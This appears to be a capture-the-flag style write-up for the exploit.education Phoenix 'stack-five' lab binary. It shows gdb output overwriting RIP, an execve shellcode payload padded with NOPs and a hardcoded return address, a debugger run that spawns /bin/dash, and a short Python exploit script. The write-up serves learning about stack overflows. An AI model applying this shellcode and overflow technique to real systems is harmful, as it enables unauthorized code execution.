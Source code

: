 In debugger,

(gdb) r < fuzz
Starting program: /home/user/stack-five < fuzz
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()

gdb) info registers rip
rip            0x434343434343      0x434343434343
```

So we can overwrite the ```$rip``` correctly

Crafting the payload,

```
user@phoenix-amd64:~$ python -c "print('\x90'*30+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'\x90'*(128-30-27)+'B'*8+'\x30\xe5\xff\xff\xff\x7f')"
1HѝЌH�T_RWT^;BBBBBBBB0�
user@phoenix-amd64:~$ python -c "print('\x90'*30+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'\x90'*(128-30-27)+'B'*8+'\x30\xe5\xff\xff\xff\x7f')" > exploit
```

Testing it in debugger,

```
(gdb) r <exploit
Starting program: /home/user/stack-five <exploit
Welcome to phoenix/stack-five, brought to you by https://exploit.education
process 9904 is executing new program: /bin/dash
warning: Could not load shared library symbols for linux-vdso.so.1.
Do you need "set solib-search-path" or "set sysroot"?
[Inferior 1 (process 9904) exited normally]
```

Exploit in python,

```
from pwn import *
rip="\x30\xe5\xff\xff\xff\x7f"        #p64(0x7fffffffe530)
bp="B"*8
shellcode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
nops="\x90"
payload=""
payload+=nops*30
payload+=shellcode
payload+="A"*(128-len(payload))
payload+=bp
payload+=rip
print(payload)
```


